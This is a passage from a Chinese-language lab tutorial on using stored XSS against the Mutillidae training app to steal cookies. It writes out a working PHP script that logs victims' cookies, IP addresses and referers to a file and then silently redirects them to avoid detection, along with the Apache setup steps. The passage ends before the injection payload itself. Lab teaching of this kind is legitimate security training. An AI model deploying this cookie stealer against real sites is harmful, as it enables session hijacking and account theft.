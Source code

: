 这次我们依然是利用存储型 XSS 来帮助我们获取 cookie。

首先我们通过 `ssh root@kali` 登陆上 kali 的系统中，同时使用 `cd /var/www/html/` 进入到 Apache 的根目录中，这是为了让 mutillidae 能够访问到我们恶意的 php 代码。

然后我们在当前目录中通过 `vim getcookie.php` 来创建我们获取 cookie 的恶意文件，并在文本中输入以下内容：

```
<?php

$cookie = $_GET['remote_cookie'];
$ip = getenv ('REMOTE_ADDR');
$time=date('Y-m-d g:i:s');
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookie.txt', 'a');
fwrite($fp,"\n"." IP: " .$ip. " \n"." Date and Time: " .$time. "\n"." Referer: ".$referer."\n"." Cookie: ".$cookie."\n");
fclose($fp);
header("Location: http://192.168.122.102/mutillidae");

?>

```

我们通过 GET 的 cookie 变量来获取 cookie 值并存放在本地的 cookie 变量中，同时获取当前的访问者的 IP 地址，此时此刻的时间，还有访问的来源。

然后通过 fopen() 来创建一个 cookie.txt 的文本文件来存储获取到的值，若是该文本本来就存在就在其内容后面添加，不覆盖原本的内容。接着通过 fwrite() 函数来将我们刚刚所获取到的内容都写进去，最后关闭文件。为了不露出马脚，我们在执行完这一切之后将页面跳转至首页。

编写完成之后我们使用 `:wq` 保存并退出，紧接着我们在当前的文件夹中创建一个 cookie.txt 的文本文件，因为该目录的所属用户是 root，所以在这个 php 程序执行的时候是没有权限创建文件的，所以我们提前创建好，并使用 `chown www-data:www-data cookie.txt` 来改变该文件的所属者：

![show-cookietxt](../imgs/wm_281.png)

最后我们通过 `service apache2 start` 来启动 apache2，这样 php 程序才能够被访问。

做好这一切的准备工作之后，我们便可以开始攻击了。

首先我们进入实验环境：
